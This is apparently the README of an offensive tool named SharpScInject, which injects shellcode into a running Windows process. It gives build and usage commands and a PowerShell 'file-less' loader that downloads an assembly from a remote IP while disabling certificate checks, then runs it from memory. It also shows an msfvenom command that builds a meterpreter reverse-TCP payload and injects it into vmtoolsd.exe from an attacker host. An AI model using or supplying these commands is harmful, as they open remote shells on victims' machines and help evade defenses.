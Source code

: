 # Sharp Shell Code Inject
Inject the shellcode from local file or remote.
The https certificate for the request is ignored.
(No need high priv!)

## Build
```
sudo apt install -y mono-complete
mcs /reference:System.Net.Http SharpScInject.cs
```

## Usage
```
SharpScInject.exe <PID_or name> <Shell Code PATH / URL>
```


File-less invoke
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} ;
$data = (New-Object System.Net.WebClient).DownloadData('https://192.168.xx.xx/file/ProcInject.exe')
# $data=[System.IO.File]::ReadAllBytes('C:\Windows\Tasks\ProcInject.exe')

$argument = "5278 https://192.168.xx.xx/file/my_shellcode.bin"

$assem = [System.Reflection.Assembly]::Load($data)
$method = $assem.Entrypoint
$argu= New-Object -TypeName System.Collections.ArrayList
$strings = $argument.Split(" ")
$argu.Add($strings)
$method.Invoke($null, $argu.ToArray())
```
## example
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.20  LPORT=443 -f raw -o a.raw
.\SharpScInject.exe vmtoolsd.exe http:/10.10.16.20/a.raw
```
